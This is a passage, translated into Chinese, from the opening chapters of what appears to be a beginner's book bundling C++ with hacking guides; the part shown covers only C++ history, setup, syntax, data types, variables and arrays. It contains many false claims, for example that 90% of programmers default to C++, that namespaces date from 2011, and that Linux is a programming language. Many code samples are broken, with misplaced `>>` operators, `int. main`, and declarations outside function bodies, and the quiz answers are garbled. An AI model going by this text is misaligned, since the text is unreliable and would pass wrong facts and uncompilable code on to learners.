# C++ 与计算机黑客及移动黑客三合集：学习 C++ 编程、计算机黑客与移动黑客初学者指南





## 快速目录

本书将包含“黑客自由与数据驱动”系列中的 3 份手稿。它本质上是三书合一。

本书的第一部分将深入学习复杂的`C++`编程语言，带你开启像大佬一样编程的道路！

`大一版`将涵盖通用黑客的基础知识，例如黑客 Wi-Fi、恶意软件、伦理黑客以及几种类型的黑客攻击。

黑客大学`大二版`将涵盖针对移动设备、平板电脑、游戏主机和 App 的黑客。



## 第 1 章：C++ 的基本背景、历史与成果

在我们开始学习如何使用`C++`之前，你必须了解它是什么以及它是如何产生的。其原因很简单：要真正了解某件事，你必须掌握关于该主题可能学到的一切，尤其是当涉及到计算机编程这样具有技术性的内容时。

`C++`是计算机和互联网历史上非常重要的一部分。它简单地交织在我们今天所知的科技世界历史之中。此外，如果没有`C++`，智能手机上的应用和其他功能将不复存在。

当你学习`C++`时，你会对一种编程语言能对我们的日常生活产生如此巨大的影响而感到惊。几乎每一台制造出来的计算机都可以归因于可以追溯到`C++`语言的特定方面。学习这种语言的优点之一是可以轻松学习其他语言。学习`C++`的能力将增强你对其他编程语言的理解，这就是为什么许多人将其视为编程的“教父”。此外，许多大公司仍然需要精通`C++`的程序员，因为他们依赖这种编程语言来运行其中央计算机系统。所以当遇到困难时，请记住从长远来看它对你有益，要保持强大并进入编程状态！

### C++ 的历史

比雅恩·斯特鲁完（Bjarne Stroustrup）在写博士论文时，决定使用一种名为`Simula`的编程语言。这种语言是计算机时代最早的编程语言之一，但它非常慢而且充满了漏洞。

斯特鲁完提出了“带类的 C 语言”（C with Classes）的想法。这是一种比`Simula`快得多的编程语言。“带类的 C 语言”后来变成了`Cfront`，加速了语言创建的过程。然而，当`C++`出现时，`Cfront`被甩在了身后，因为它在语言中加入了编译器，使其比当时的任何其他项目语言都更容易、更快使用。

从那时起，出现了许多注释参考指南和语言更新，使其变得更好、更快、甚至更容易使用。《C++ 傻规划》是该语言的一本流行指南。

`C++`是目前最流行的语言之一。这种语言对于许多行业都是最佳的，因此，与其花费大量时间开发新语言，不如将`C++`适应许多不同的变，因为它本质上是多功能的。

### 到底什么是 C++

`C++`不仅仅是任何编程语言，它是面向对象的。面向对象编程简称`OOP`是围绕对象而非动作的编程。这就像是一次观察整个画面，而不是每一个独立的拼图碎片。

这种编程语言的设计考虑了灵活性和速度，因为当时的其他语言太慢了，只能做一件事，所以每当你创建一个新东西时，都需要一种新语言。

你可以用这种语言做很多事情，尽管市面上的语言多得惊人，但它们今天仍然非常受欢迎。

- **预包装脚本**：这些脚本爱好者和新黑客用来练习编程技巧的。由于现在有许多人想走捷径，预先准备好的脚本是大多数黑客寻找的，因此这些包需要改进，他们使用`C++`实现了这一点。

- **视频游戏**：面对现实吧，每个人在生活的某个阶段都玩过视频游戏。无论是长大还是你有孩子了，你都会陷入视频游戏的世界，并且永远无法逃。那些游戏可以归因于某种形式的`C++`语言的使用。

- **网页**：许多网页是使用`C++`制作的。这是因为这种语言非常易于操作，能够快速快捷地构建出为用户提供大量交互功能的网站。你可能经常访问的某些由`C++`创建的网站包括`Amazon`和`Ebay`。如果你喜欢设计网页，你应该学习`C++`以提高效率，甚至可能在这个领域找到一份不错的工作。

- **手机应用**：如今似乎每个人都拥有一部智能手机，这意味着应用程序无处不在。市上有成千上万的 App，而且每天都有新的 App 生成。有些 App 是免费的，有些需要付费，但很大一部分是使用`C++`制作的。这是因为这种语言的扩展性极强，可以用于简单的游戏，也可以用于复杂的购物应用。

还有许多`C++`的其他次要用途，例如 VoIP 通话。它就是使用`C++`创建的。事实是，你会一次又一次被告诉`C++`是一门正在消失的语言，但实际上这只是`JAVA`人为了恐吓人们切换语言以确保`C++`走向没而使用的一种诡计。

## 为什么使用它

使用`C++`不仅是因为它的灵活性和速度，还因为它拥有许多组件，相当容易学习，而且如果你掌握了`C++`，你就可以轻松地掌握其他语言。原因在于，当你先学习比其他任何东西都复杂一点的内容时，较容易的内容就会迎刃而解；然而，如果你习惯了容易学习的科目，你就会发现更困难的科目变得很难学习，因为你不习惯在正尝试学习的科目上投入那么多精力。

如果你想学习一种可以在计算机技术领域内用于不同类型函数的语言，那么这门语言正适合你。你用它做几乎任何事情，一旦你对其有了足够的了解，你可能找到操纵这种语言来实现它通常无法做到的事情。

在计算机编程领域，`C++`是一门非常重要的语言，尽管由于布局方式它有很多变量，但它非常易读，也非常容易创建。这使其成为世界上最受欢迎的编程语言之一，因为没有人想苦苦于阅读代码。没有人想把所有时间都花在自己知道是正确的事情上，仅仅因为他们找不到自己哪里出错了。

## 职业前景

是的，有很多工作仍然依赖`C++`来运行。你可以做许多不同的事情，而且所有这些事情都会影响社区中的其他人。视频游戏设计和网页设计是其中最著名的两个。你也可以成为一名白帽或蓝帽黑客。

但根据`payscale.com`（搜索软件工程师），根据经验，拥有`C++`软件工程师背景的人士可以获得 $57,000 到 $120,000 的收入。中位数在 $80,363 左右。拥有`C++`编程语言背景的人的其他头衔还包括计算机程序员、电气工程师和应用开发人员。

然而，为了做到最好，你应该始终掌握两三门编程语言以保持市场竞争力。虽然这些语言不会包含在书中，但不要把自己束缚在一种语言上。相反，就像人类语言一样，开宽你的眼界并涉几种，但保留一门作为你的主语言。

由于`C++`的多功能性，它应该是你依靠的备选主语言。也许可以使用`JAVA`或`Linux`作为你的其他语言，但`C++`是最好的主语言，而你只想要最好的作为你的主语言。

`C++`是一门静态编写的低级语言，这意味着它是一门简洁且扩展性强的语言。

`C++`是`C`的全功能超集，支持面向对象编程。这意味着它支持`OOP`的所有支柱，如封装、数据隐藏、继承和多态。

要了解更多关于面向对象的知识，你可以在网上进行快速搜索并发现更多信息。最好获得一些它是什么的知识，但这对你的`C++`知识并不是至关重要的，因此它不会真正包含在书中，除了几处顺带的以及这里那里的一些零碎信息之外。

## C++ 的三个重要组件

标准的`C++`由三个非常重要的概念组成。

- **核心语言**：它由所有的变量、数据类型、字面量和语言的其他重要方面组成，创建了通往下一阶段的构建基石。

- **C++ 标准库**：这允许你操作语言中的文件和其他工作，并按照你的意愿操纵它们。

- **STL**：代表标准模板库（Standard Template Library），它为你提供了操作数据结构、变量以及其他类似内容的函数。

## 为什么 C++ 被认为是世界上最好的语言？

嗯，除了上述提到的灵活性、速度和简单性外，它是一门跨越了三十多年的语言，并在今天仍被广泛使用。在生活的任何领域，没有多少产品可以这样说。产品和公司来来去，但只有真正的完美会留存。好吧，话是这么说的。诚实地说，`C++`从那时以后有很多更新，但核心过程仍然一样。它问世时领先时代许多光年，由于保持其处于领先地位的更新，它今天仍然是一项非常先进的技术。

还有许多关于`C++`被认为是最好的语言的观点。虽然许多人说`C++`不再具有相关性，但有更多的人证实它仍然是世界上最好的语言，并且是他们的备选语言。这是他们最了解的语言，也是他们深藏心底的语言。原因各异，但 90% 的程序员默认使用`C++`这一事实表明它确实是当今最好的编程语言。

`C++`是少数完全遵循 ANSI 标准的语言之一，这就是为什么你玩过的最棒的游戏仍然是使用`C++`编写的。因为它们的编译器被设置为确保所有命令在编写和执行时都没有错误。它也可以用于许多不同类型的平台，无论你拥有 Microsoft、Unix、Mac、Windows 还是 Alpha 设备，都可以使用`C++`。这是一件很棒的事，因为许多程序员必须在许多不同的平台上操作，通用性使其变得易于使用和便携。只需将代码丢进闪存盘并上传到任何需要的地方即可。

## 使用 C++ 语言的优势

在使用`C++`语言时，你将享受到许多好处。其中一些好处包括：

- **大型库**：由于`C++`已经存在了很久，他们拥有一个非常大的库。这供你使用，你可以从脚本中挑选你需要的代码，节省时间甚至学习一些新知识。如果你愿意，你也可以创建一些自己的代码，但这个库对于正在学习的初学者非常有帮助，并且可以让编写代码变得比以往任何时候都容易。

- **与其他语言协作的能力**：`C++`是一种与其他一些编程语言一起使用的极佳语言。这让你投入你想要的项目变得更容易，因为你可以从不同的代码语言中添加你喜欢的部分并将它们结合起来，创造出真正惊人的东西。

## C++

- **适用于许多项目**：大多数其他编程语言通常只关注于一或两个小项目。例如，使用`JavaScript`意味着你将只是开发网站。但通过`C++`，你可以利用它来帮助许多不同的项目。无论你是想开发网站、想创建一个新程序，还是用编程做其他事情，你都能在`C++`的帮助下实现。

- **快速且可靠**：如果你用过过去流行的一些其他编程语言，你会发现它们有时并不是最可靠的。信息可能会丢失，或者它们的运行方式不符合你的意愿。如果你想要一种一次运行就能成功且可靠的东西，那么选择`C++`是一个好主意。

- **提供强大的功能**：那些喜欢编程并希望在工作工作中拥有强大控制力的人会发现`C++`是他们的正确选择。在现有的编程语言中，它拥有一些最强大的特性。

这些仅仅是你使用`C++`编程语言时可以享受的几个优点。它看起来可能比其他语言（如`Python`）稍微难用，但它拥有你需要的强大功能，并且可以与其他编程语言良好协作。通过一些练习，你将掌握这门语言的所有基础，并真正享受你用这种编程语言能做到的事情。

## 第二章：让我们开始

让我们开始吧！有很多可以开始的地方，但让我们先谈谈环境。虽然你并不真的需要设置自己的环境，因为有很多在线环境。环境是你选择的编译器，它接收你的代码并为你完成所有的功能。在过去，你必须打开命令提示符并创建一个环境来使用，但那些日子已经过去了。过去的一个小错误可能会对他们的电脑造成严重损坏。现在你可以练习一些风险提示，而不会对你的设备产生任何风险。

互联网上有许多可以尝试和使用的示例。要尝试它们，最简单的地方是`http://www.compileonline.com`。选择底部的“Learn C++”选项，它将带你去你需要的地方。

这里有一个尝试的示例。输出应该是“Try This”。

```cpp
#include <iostream>

using namespace std;

int main ()
{

cout << “Use This One!”;

return 0;
}
```

现在，你可以选择直接将这些代码输入编译器，或者编写几段代码并保存到计算机中，随时访问，这样你每次想折腾它们时就不需要重新输入了。你可以使用几种不同的文本编辑器。然而，其中一些是特定设备类型的。这意味着它们只能在创建它们的设备类型上运行。

你可以使用的文本编辑器有`os edit`、`Brief`、`EMACS`、`epsilon`、`Windows Notepad`、`vlm`或`vl`。但只有`vlm`和`vl`是多平台通。确保使用`.c`或`.cpp`扩展保存文件。

在考虑移动到编译器之前，你应该先在文本编辑器中编写程序的草稿。这是因为一旦你进入编译器，就很容易在程序上出错且无法发现。然而，如果你在文本编辑器中以一种整洁、利落的方式布局了代码，那么在编译器中运行程序时应该就不会有问题。

### C++ 编译器

世界上有很多不同的编译器，其中许多相当昂贵。那些编译器是为已经掌握了低级编译器的精英程序员准备的。初学者只需要基础编译器，而大多数都是免费的。然而，就像任何免费的东西一样，你必须小心你得到的是什么。市面上糟糕的廉价编译器比好的多，因此在免费的名义下，我建议你支付启动页面之外的额外费用。这些额外功能通常非常便宜，所以你不需要花费巨资就能获得它们。

可用最流行的编译器之一是`GNU C/C++ compiler`。它最常用于`UNIX`和`Linux`安装。要检查你是否已经有了该编译器，请在`UNIX/Linux`中打开命令行并输入以下内容：

```
$ g++ -v
```

如果安装了编译器，你应该会在屏幕上看到这条消息：

```
Using built-in specs.
Target: i386-redhat-linux
Configured with: ../configure –prefix=/usr …...
Thread model: posix
gcc version 4.1.2 20080704 (Red Hat 4.1.2-46)
```

如果屏幕上没有出现这条消息，说明编译器不在电脑上，或者你安装错误了，你需要重新进行正确的安装。

在本书中，我们将介绍如何使用`Windows`平台进行安装。如果你有不同的平台，应该去`http://gcc.gnu.org/install/`并阅读如何将其下载到你平台的说明。

要在你的`Windows`计算机上安装此编译器，你首先需要安装`MinGW`。这是使编译器与你的计算机兼容的软件，拥有此软件非常重要，否则你甚至无法下载编译器。

要安装此软件，你可以访问该软件的主页`www.mingw.org`，并允许它引导你去你需要的地方。`gcc`、`g++`、`MinGW`、`runtime`、`Command line`、`Windows`。

### 基本语法

`C++`不仅可以定义为程序，还是通过调用其他方法共同通信的对象。当你使用`C++`时，你应该知道其他四件事的含义。

类（Class）：这是一个模板或蓝图，规定了对象并描述了对象的行为。这意味着对象根据它们的行为被分类到类中。

对象（Object）：对象具有行为和状态。例如，如果你看一只狗，它有状态。这些状态可以被分类为颜色、品种、名称、犬种标准（AKC/AKA/APC 注册表）。“狗”也表现出行为。它们摇尾巴、汪叫、喘气、吃干狗粮，并在院子外上厕。这些特征让狗成为了独特的对象。这些对象被分为称为“类”的组。

方法（Method）：这是行为的另一种术语。在你的类中，你可以选择任意数量的方法。这是操作所有数据和执行动作的地方，也是编写所有逻辑的地方。方法尤为重要，因为没有它们，你的程序就不知道应该对你给它的变量做什么。它只会像个废物一样呆在那里，无所作为。

瞬时变量（Instant Variables）：指的是每个单独的对象。每个对象都通过一组唯一的变量进行分类，这些变量充当对象的指纹。这些变量通过在对象创建时出现的值被分配给对象。

```cpp
#include <iostream>

using namespace std;

// main() [这是程序开始执行的地方.]

int main()
{

cout << “Try This”; // [打印 Try This]

return 0;
}
```

此函数允许你打印任何你想打印的内容，而不仅仅是“Try This”这些单词。

现在，让我们详细分析一下上述程序的各个方面。这种语言有几个不同的方面需要你考虑。每个方面对于程序的运行都至关重要，如果你不完全执行它们。

### 头文件 (Headers)

头文件 - `C++`中有很多头文件，它们对于编程操作来说都是必需的，或者至少对你的编程操作是有用的。然而，对于大多数函数，你会看到位于`<iostream>`之上的头文件。当你使用头文件时，请确保正确地包含它，并在前面加上`#include`以提示程序使用该头文件。

### 命名空间 (Namespace)

命名空间是`C++`中一个很新的特性，直到 2011 年的更新才出现。它们的作用不大，只是描述要使用哪个命名空间。虽然它们不是必须的，但它们可以减少你在程序函数方面的很多困惑。它们只是作为一种更系统的方式组织你的函数。

### 主函数 (Main)

Main - 这里是主函数开始的地方。使用`// main()`行会指令程序开始执行程序的主函数，并开始输出过程。设置主函数命令是关重要的，否则你的程序将不知道它应该运行什么，也不知道它应该什么时候运行。这在程序内部被视为一个单行注释，它将告诉程序主函数正在开始。

### INT main

INT main - 这是函数执行正式开始的地方。如果你不包含这个，整个过程将停止，因为你没有引入变量，而没有变量，程序就会迷失方向。

### Cout

Cout - 这条指令程序在屏幕上显示你想显示的消息。如果你不放置`cout`，你的程序很可能会失败，也可能不失败。问题在于你不知道自己是否成功了，所以如果你想确保一切运行得顺畅，请务必添加`cout`。

### Return (Return)

Return - 这会将值返回给零并终止函数。它指令程序结束过程并回到开头。

### 如何编译和执行 (How to Compile and Execute)

现在来编译并执行你的第一个正式`C++`程序。

首先，你必须知道如何保存文件。打开你选择的文本编辑器，并输入上方代码。完成后，点击“另存为”，并选择一个容易找到的文件位置。为了组织起见，最好为所有程序准备一个单独的文件夹。将文件保存为`hello.cpp`，保存后，你应该在进入文件保存的目录之前打开命令提示符。


要让文件在编译器中打开，首先输入`g++ hello.cpp`。然后你可以按回车键，代码将被正确打开。只要没有任何错误，提示符就会生成一个`a.out`可执行文件。要运行程序，输入`./a.out`并观察编译器的运行。你从计算机编译器中从中获得的信息包括：

```
$ g++ hello.cpp
$ ./a.out
```

## 试一试 (Try This)

确保你以正确的方式输入所有变量，并记住，这些内容是**区分大小写**的。如果你不正确正确输入函数，你会发现事情往往会出错。编码的特点在于你必须精确。这种注重细节的个人特质适用于所有编程语言！然而，只要愿意注意，任何人都可以做到的。

## 分号和代码块 (Semicolons and Blocks)

基本的函数命令并不是你唯一需要使用的。在构建提示符时，还有其他事情也是重要的，因为它们同样指令程序执行特定的事情。其中一些事情就是代码块和分号。

当你想到分号时，你可能认为它是句子中的停顿，但在 C++ 程序中，它们是完全的停止。分号表示语句的结束。这意味着每一个单独语句必须通过使用分号来标记。以下是三个不同的语句。

```
x=y;
y=y+1;
add(x,y);
```

每一个语句之间不仅通过换行符分隔，还通过分号分隔。你也可以这样做：

```
x=y; y=y+1; add(x,y);
```

仅仅因为分号，其中每一个都会被识别为独立的语句。如此简单的事情竟然能产生如此大的影响，这确实令人惊叹。

在这种编程语言中，代码块是一组被包含在括号中的语句。这些语句是逻辑实体，程序由于主命令提示符将它们显示在屏幕上。例如：

```
{
cout << "I like Pizza"; //打印 I like Pizza
return 0
}
```

行尾并不是终止符，如上文所示。分号是终止语句的唯一东西。

## 标识符 (Identifiers)

现在我们来看程序中的标识符。这些标识符用于标识多个事物，例如代码块内的类、模块、函数和变量。标识符是一组字母和数字，你可以用它们命名你的程序或文件，它们必须以字母开头，之后可以是任何你想要的字母或数字。除了你在句子中看到的标点符号外，不允许使用其他标点字符。你不会看到如`@`、`&`、`%`或`$`这样的字符，并且编程是区分大小写的。这意味着`YokoOno`与`Yokoono`、`yokoOno`和`yokoono`是不同的。确保你在程序中只大写应该大写的字母。

虽然几乎任何东西都可以作为标识符，但 C++ 中有些内容是预留给**关键字**的，不能用作标识符。这些单词如下。

| asm | | | |
|---|---|---|---|
| Break | Bool | Auto | |
| Char | Catch | Case | |
| Const cast | Const | Class | |
| Delete | Default | Continue | |
| Dynamic cast | Double | Do | |
| Explicit | Enum | Else | |
| False | Extern | Export | |
| Friend | For | Float | |
| Inline | If | Goto | |
| Mutable | Long | Int | |
| Protected | Private | Namespace | |
| Reinterpret cast | Register | Public | |
| Signed | Short | Return | |
| Static cast | Static | Sizeof | |
| Template | Switch | Struct | |
| True | Throw | This | |
| Typeid | Typedef | Try | |
| Unsigned | Unlon | Typename | |
| Void | Virtual | Using | |
| While | Wchar t | Volatile | |

在标识符方面，几乎任何东西都可以。把标识符视为用户名和密码。混合使用，但要确保它们是有效的。

## 三元组 (Trigraphs)

三元组是一组代表单个字符的三个字符序列。你会注意到这些，因为它们将以两个问号开头。使用三个字符来代替一个字符似乎有点冗余，但背后的原因是为了不让程序混淆字符含义，因为许多字符很相似。

是一些常用的三元组，让你了解我们表达的意思：

- `??=` `#`
- `??/` `\`
- `??'` `^`
- `??(` `[`
- `??)` `]`
- `??!` `|`
- `??<` `{`
- `??>` `}`
- `??-` `~`

由于其混淆的性质，并不是所有的编译器都支持三元组，大多数人都会尽量避开它们，然而发现当你记忆了三元组时，你在函数中按错符号的概率就会降低。

## 空格 (Whitespace)

接下来是空白字符。这是程序中的空行。有时它们包含注释，这些被称为空白行。编译器会完全忽略它们。空白字符描述空格、换行、制表符、字符和注释。它仅仅是为了让你的程序看起来更有组织、更易读。

变量/标识符与语句之间应该至少有一行空白。

## 测验 (QUIZ)

你以为你可以直接读完这本书，而不需要通过任何测试来证明你是否在留心吗？也不要作弊！仅仅因为你可以偷看答案，并不意味着你应该这么做。你应该像对待普通测验一样对待它，以真正测试你的知识，这样你就可以判断是否需要回去重读某些内容。这是一个短测验，所以你没问题的。

1. 什么是空白符（whitespace）？
2. 填空 `___ <<x=y+1_>>`
3. 什么是三字符（trigraphs）？
4. 谁发明了带类的 C 语言（C with Classes）？
5. 大多数函数使用的头文件是什么？

## 答案

1. 编译器忽略的空格或注释
2. `Cout <<x=y+1;>>`
3. 代表单个字符的三个字符序列
4. Bjarne Stroustrup
5. `<iostream>`

恭喜你，如果你五个都答对了，那么就可以进入下一节了！但是，如果你错了一个以上，那么你可能应该回去重读这一节。如果你准备好了，请进入第 3 章。

# 第 3 章：深入学习程序注释、数据类型、行和字符

现在我们已经涵盖了 C++ 的基础知识，是时候进入一些与程序相关的更深入的话题了。虽然这些内容更深入，但它们仍然是初学者需要学习的核心概念。

## 程序注释

所以，会有某些时候你会在代码中编写一些注释。这些注释非常重要，因为它们允许你在代码中留下一小段信息，这样以后阅读代码的人就能清楚地看到你的代码是如何运行的，并对你在代码中正尝试实现的目标提供“参考”。此外，在代码行中留记笔记是提醒自己代码可能出现问题的地方的好方法。通过在代码中添加注释，你更有可能知道自己在哪里成功了，或者在何处错了。

这些注释可以根据你的需要变得简单或复杂。有些人可能只会放置一两个单词，如果这足以帮助其他用户，但在其他情况下，你可能需要将更多的行组合在一起，以确保一切运行正常，并让另一个人理解代码内部在发生什么。

在这门语言中，你只需要使用`//`符号来表示你正在编写注释。你可以写任意长度的内容，只需确保在注释结束时跳到下一行，这样程序就知道它应该重新开始读取。

程序在`//`之后会停止读取，它不会影响程序的运行方式。查看代码的其他程序员会看到你编写的注释，但当程序执行时，这些注释将被跳过。你可以在程序中添加任意数量的注释，但请尽量保持有限，因为过多的注释可能会堵塞代码，使其难以阅读和理解。

程序注释基本上是代码内部的语句。这些语句（或注释）的作用是帮助其他使用你代码的人士理解每个函数的用途。所有的编程语言都允许某种类型的注释，但它们并不允许存在的所有类型的注释。最常用的是单行注释。这是所有编程语言都允许的。这些注释是简单的解释性行，用简单的句子告诉下一位读者其目的。

还有多行注释。这是极少数编程语言允许的注释之一。C++ 就是其中这少数语言之一。有时你有一段更复杂的解释，它需要跨越多行。这在 C++ 中是可以实现的。

当你使用单行注释时，你会看到它在代码中用`//`编写，并且可以一直延伸到行尾。它的例子是：

```cpp
{
    cout << “that's great” >>;  //prints that's great
    return 0
}
```

最终输出将是“that's great”，没有没有。编译器忽略注释，因此你可以让其他程序员了解代码的用途，或者你需要对代码进行什么处理。

然而，如果你试图在某些代码上寻求帮助，你应该使用多行注释，这样你就能充分利用你复杂的代码。多行注释由这些符号`/*-*/`包围。像这样写出来看起来几乎像一个表情符号。例如

`/* I need help making the puppet dance*/`仍然是一个单行注释。一个更好的例子是

```cpp
/* I need help making the puppet dance
*All he does at this point is sway from side to side */
```

这就是多行注释。如你所见，当你开始新的一行时，你应该在开头放置星号，以指示程序你仍在编写注释，并且下一行确实是空白符。编译时，它将忽略注释并只显示你想让显示的内容。

虽然你可以混合使用注释风格，但在你掌握一切之前，最好将它们分开。

## 数据类型

在使用任何语言编写程序时，你都必须使用不同的变量。这些无非只是预留的内存值，存储在编译器内存中某些空间的位置。上面的保留关键字列表在这里也很有用。虽然有很多保留关键字，但有七种基础关键字定义了数据类型。

| 类型 | 关键字 |
| :--- | :--- |
| 宽字符 | `wchar_t` |
| 空 | `Void` |
| 双精度浮点 | `Double` |
| 单精度浮点 | `Float` |
| 整数 | `Int` |
| 字符 | `Char` |
| 布尔 | `bool` |

大多数数据类型可以使用以下修饰符进行修改：

- Long（长型）
- Short（短型）
- Unsigned（无符号）
- Signed（有符号）

## 变量类型

当你在编程语言中使用变量时，你是在提供某种存储空间以便程序进行操作。这些类型决定了变量内存的布局和大小。它还决定了你能够存储的值范围。命名变量与命名标识符相似。你只能使用字母或下划线命名，并且是区分大小写的。在此之后，你可以使用任何类型的数字、字母和字符。

再次，你可以在这里更详细使用的基础变量包括：

- `wchar_t`：这是宽字符类型。
- `Void`：它表示类型的缺失。
- `Double`：这是一个具有双精度的浮点值。
- `Float`：这是一个具有单精度的浮点。
- `Int`：这是一个整数。
- `Char`：它通常只有一个字节，是整数的一种类型。
- `Bool`：它处理真或假的值。

你还可以定义其他类型的变量。这些变量包括指针、数组、引用、枚举、数据结构和类。

## 创建新行

现在你已经知道了数据类型和修饰符，以及关于在程序中编写注释的所有知识，是时候学习如何创建新行了。这是一个许多新程序员都会遇到的问题。他们的程序在输入中排版得非常漂亮，但输出仍然拥挤在一起，非常凌乱。这是因为他们没有正确创建新行。记住，空白符是被忽略的，所以你不能仅仅跳过一行并期望程序中也跳过一行。你必须指示编译器你想开始新行。

今天尝试这个：我今天吃了披萨，并且做了数学题。`6= (7-1)` 这是我今天学到的。

你可能更愿意看这种：

今天尝试这个

今天我吃了披萨并做了数学题

`6=(7-1)`

这就是我今天学到的

为了区分它们，你必须使用正确的函数，因为编程正是依赖于此——使用正确的函数。

要创建换行，你必须使用函数`endl`；这表示你想换行，而且如果你不想加空格，甚至不需要添加空格，尽管建议这样做，因为这能让你的程序更易于人类阅读。

例如，像这个：

```cpp
{
cout << Try This;>> endl;
<<Today I ate Pizza and did Math;>> endl;
<<6=(7-1);>> endl;
<< That is what I learned today;>> endl;
return 0
}
```

看起来比这个好得多：

```cpp
{
cout << Try This;>> endl; << Today I  ate Pizza and did Math;>> endl; <<6=(7-1);>> endl; << That is what I learned today;>> endl;
return 0
}
```

你能看到这对于读代码的人来说会变得多么困惑吗？你希望你的代码文件易于阅读，这样如果其他人必须修复某些问题，他们就能轻松找到错误发生的地方。如果所有东西都混在一起，他们就无法很容易地找到任何东西，不是吗？

你也可以使用`\n`来表示换行。这与`endl;`相同，但输入速度快得多。你可以使用任何想要的方法，但要选择一种并坚持下去。

## C++ 基础知识的重要性

我知道你在想什么，为什么在刚开始时就必须知道这些毫无意义的碎片信息。原因在于，如果你现在不学习它们，你以后就不会认为自己需要它们；那么当你以后阅读别人写的程序时，你会疑惑所有这些额外字符是什么意思，以及为什么有这么多空格。养成这些简单但又有些枯燥任务的习惯，对于掌握更复杂的编程方法至关重要。就像精通任何语言一样，你必须掌握基础，才能掌握专家级概念。

## 变量定义

变量定义指示编译器如何以及在何处存储创建变量。它指定了数据类型，并列出了一个或多个该类型的变量。例如

`type variable_list;`

你必须在上方列出一个有效的数据类型。它们可以包含一个或多个标识符，只要它们用逗号分隔即可，例如

`int ---- j,k,l;`

`char----c,ch;`

`float---- f, salary;`

`double--- d;`

这些缩写每一个指示编译器创建具有相应名称的类型变量。变量可以赋予初始值，通过等号来指示这一点。例如

```cpp
#include <iostream>

using namespace std;

int. main ()

int j=10;
int k=5;
int l=j+k

{
cout <<l>> endl;
return 0
}
```

你应该得到答案 15。

你也可以在程序中声明并定义变量，但那是高级别的内容，如果你想了解，可以在 Google 上搜索这方面的教程。

## 测验

这是设置。你应该有一个短语、一个数学题，然后使用上述整数给出该数学题的答案。你可以自己编写所有的变量，随你意愿。

```cpp
#using <header>

using namespace std;

int main ()

int _=_
int _=_
int _=_+_

{
cout < “”;> /n
< “”;> /n
cout  < “int_”;> /n
return 0
}
```

简单地输入你的数字并确保你的数字相加正确。完成后后，在不依赖复制粘贴不带整数代码的情况下重新运行代码。通过这种方式，你对变量有了基础的理解，并在 C++ 中练习基础整数运算。

# 第 4 章：数组、循环和条件

信不信由，你已经学习了这么多。基础知识其实并不难，现在只需要学习更多事情，并将一个接一个的概念结合起来，以确保你正在成为一名更好的 C++ 程序员。让我们继续吧。

## 数组

数组是 C++ 中的一种数据结构，能够存储基本相同类型且大小固定的元素。基本上是相同类型变量的集合。与其使用单个变量，你将声明一个变量数组，例如数字。为了做到，你使用数字`0 到 99`并通过数组的索引来访问每一个。

数组将是连续的内存位置。最低的总是第一个元素，然后最高的元素将是最后一个。

### 初始化数组

你可以逐个初始化数组，也可以使用单个语句。例如

`double balance [5]= {1000.0, 2.0, 3.4, 17.0, 50.0};`

括号之间找到的不能高于你使用的元素数量。这意味着当你的数组标题只指定了五个时，你不能有六组数字。然而，如果你不指定大小，就会创建一个恰好合适的数组。你如下所示输入：

`double balance [] {1000.0, 2.0, 3.4, 17.0, 50.0};`

现在你知道了数组的大小，是时候将它放入程序了。这是给你的公式。

```cpp
#include <iostream>

using namespace std;

#include <iomanip>

using std::setw;

int main ()

{
int n[10 ]; //初始化数组 n 为 0
for ( int i=0; i <10; i++)
{
n[i] =i+100; //将位置 I 语句设置为 i+100
}

cout << element << setw(13) << value: //输出每个元素的值
for (int j=0; j<10; j++)
{
cout << setw(7)<< j << setw(13) <<n[j] << endl;
}

return 0
}
```

当你想取一种代码并反复执行它时，就会使用类型。这些语句将一个接一个地执行。循环语句将让你更容易按照你所需的次数执行这些语句。

## 循环类型

有四种循环。这些循环处理不同的需求。

### While 循环

While 循环只要满足特定条件就会继续重复循环。它会在每次重启循环周期时测试此条件，并一直直到条件不再为真。

写法如下：

```cpp
while (condition)
{
statement(s);
}
```

### For 循环

